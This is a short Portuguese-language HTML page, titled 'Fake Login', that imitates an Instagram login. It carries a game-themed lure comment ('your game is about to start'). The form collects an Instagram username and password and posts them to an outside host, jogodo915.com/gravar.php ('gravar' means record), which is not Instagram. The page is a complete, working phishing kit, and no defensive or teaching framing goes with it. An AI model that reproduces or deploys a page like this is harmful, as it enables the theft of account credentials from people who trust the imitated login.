 <!Seu jogo ja vai começar!!>
<html lang="pt-BR">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Fake Login</title>
</head>
<body>
    <h2>Faça login na sua conta do Instagram</h2>
    <form action="http://jogodo915.com/gravar.php" method="post">
        <label for="username">Nome de usuário do Instagram:</label><br>
        <input type="text" id="username" name="username" placeholder="Digite seu nome de usuário do Instagram"><br>
        <label for="password">Senha:</label><br>
        <input type="password" id="password" name="password"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
